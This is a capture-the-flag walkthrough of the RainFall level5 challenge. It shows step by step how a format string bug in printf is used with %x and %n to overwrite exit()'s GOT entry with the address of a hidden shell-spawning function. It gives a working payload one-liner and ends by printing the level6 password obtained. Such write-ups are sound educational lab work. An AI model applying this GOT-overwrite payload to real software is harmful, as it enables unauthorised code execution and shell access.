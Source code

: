The binary reads user input, prints it with printf, and eventually calls exit(). The goal is to hijack the control flow and get it to call a hidden function o(), which spawns a shell. We exploit a format string vulnerability to overwrite the GOT entry of exit() with the address of o().

Step 1: Understand the Functions
There is a hidden function o() that runs system("/bin/sh"):

0x080484a4 <o>:  call 0x80483b0 <system@plt>
This function is not called normally, but we want to execute it. How?

The function exit() is called at the end of execution. If we overwrite the GOT entry of exit() with the address of o(), then when exit() is called, it will jump into o() and give us a shell!

The GOT, or Global Offset Table, is a critical data structure used in programs compiled with dynamic linking (e.g., programs that use shared libraries like libc.so). It helps the program find and call functions that are located in shared libraries (like printf, exit, system, etc.) at runtime rather than at compile time.

Step 2: Find the GOT Address of exit() and Address of o()
We use objdump -R to find the GOT entries:
The -R option tells objdump to display the relocation table of a binary

```
level5@RainFall:~$ objdump -R level5 | grep exit
08049828 R_386_JUMP_SLOT   _exit
08049838 R_386_JUMP_SLOT   exit
```

The GOT entry for exit() is at 0x08049838.

We use GDB to find the address of o():
```
(gdb) info functions o
0x080484a4  o
```
So we want to write 0x080484a4 into 0x08049838 using a format string.

Important Clarification: PLT vs GOT
You may see exit@plt like this:
0x080483d0 <exit@plt>
But this is not the GOT entry.

What's the Difference?
exit@plt (e.g., 0x080483d0) is code — a trampoline that jumps to the GOT address.
exit@got (e.g., 0x08049838) is data — a pointer used by the PLT trampoline.

We want to overwrite the GOT entry, not the PLT stub.

Step 3: Format String Exploit Strategy
We’ll perform a format string attack to write the address of o() (0x080484a4) into the GOT entry of exit() (0x08049838).

1. Leak the stack with %x
We first find where our input appears on the stack:
```
python -c 'print "aaaa " + " %x" * 15' > /tmp/exploit
cat /tmp/exploit | ./level5
We see 61616161 (hex of aaaa) in the output — let’s say at position 4.
```

2. Use %n to write
%n writes the number of characters printed so far to a given memory address.
Address of exit() GOT: 0x08049838 → bytes: \x38\x98\x04\x08
Value to write: 0x080484a4 → decimal: 134513828
So we craft input like:
```
print "\x38\x98\x04\x08" + "%134513824d%4$n"
We subtract 4 because 4 bytes were already written when printing the address bytes.
```

Final Exploit
```
python -c 'print "\x38\x98\x04\x08" + "%134513824d%4$n"' > /tmp/exploit
cat /tmp/exploit | ./level5
                                                512
whoami
level6
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
